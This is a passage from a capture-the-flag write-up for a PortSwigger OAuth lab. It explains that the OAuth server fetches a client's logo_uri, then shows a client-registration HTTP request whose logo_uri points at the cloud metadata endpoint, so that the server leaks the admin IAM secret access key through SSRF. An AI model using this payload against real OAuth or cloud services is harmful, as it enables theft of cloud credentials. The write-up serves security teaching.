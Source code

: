 ![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/OAuth-Authentication/OAuth-5/images/Pasted%20image%2020230302201554.png)

As you can see, we received a HTTP request!

So, the OAuth server is using the `logo_uri` property fetch the logo!

That being said, **we can leverage the `logo_uri` property to permform SSRF (Server-Side Request Forgery)!**

In this lab background, it said:

> To solve the lab, craft an [SSRF attack](https://portswigger.net/web-security/ssrf) to access `http://169.254.169.254/latest/meta-data/iam/security-credentials/admin/` and steal the secret access key for the OAuth provider's cloud environment.

To do so, we can:

- Register a new client application with `logo_uri`:

```http
POST /reg HTTP/1.1
Host: oauth-0a2400cc04337b2fc038f7ce02e90099.oauth-server.net
Content-Type: application/json
Content-Length: 156

{
    "redirect_uris": [
        "https://test.com"
    ],
    "logo_uri": "http://169.254.169.254/latest/meta-data/iam/security-credentials/admin/"
}
```
